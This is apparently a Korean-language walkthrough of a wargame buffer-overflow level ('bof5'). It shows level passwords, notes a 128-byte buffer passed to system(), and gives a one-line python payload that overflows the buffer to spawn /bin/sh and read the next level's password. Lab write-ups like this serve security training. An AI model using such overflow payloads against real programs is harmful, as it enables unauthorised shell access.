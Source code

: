 # bof5

## bof5 ID : bof5
## bof5 password : c75cfe84

<과정>
1. ls를 통해 bof5 bof5.c bof5.hint bof6pw가 있음을 알 수 있음(bof6권한 x)
2. (bat bof5.c) bof5.c 소스코드
* buf크기 : 128
* system(buf);
  * system 함수 --> 쉘 실행 

<img src="https://github.com/adakim3297/day3/blob/main/bof5%20%EC%86%8C%EC%8A%A4%EC%BD%94%EB%93%9C.png?raw=true" width="350" height="450"/>

4. bof5 힌트
* 
  <img src = "https://github.com/adakim3297/day3/blob/main/bof5.hint.png?raw=true" width="500" height="110"/> 

*  (python -c "print '/bin/sh\x00' + 'x'*132 +'\x78\x56\x34\x12'" ;cat) | ./bof5

<결과>
<img src = "https://github.com/adakim3297/day3/blob/main/bof6.password.png?raw=true" width ="250" height = "90"/>
* bof6 password : b35aad61